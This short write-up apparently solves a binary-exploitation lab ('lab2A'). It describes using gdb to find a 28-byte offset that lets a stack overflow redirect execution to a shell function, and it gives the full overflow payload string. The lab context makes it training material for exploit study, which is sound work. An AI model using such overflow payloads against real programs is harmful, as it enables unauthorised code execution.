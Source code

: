 # Solution of lab2A

I couldn't do it without source code, so i look at this:

![source](screenshots/source.png)

In gdb i watched the stack all times with different strings and offset like `("A"*12 +"\x01\n")*offset` and then i calculated the offset. It equals to 28 for setting return address to shell function address. But we need to put first characters of the strings. So it looks like `("A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D" + "\x01\n")*6 + "A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D"*12 + "\x09\n"`:

![payload](screenshots/payload.png)
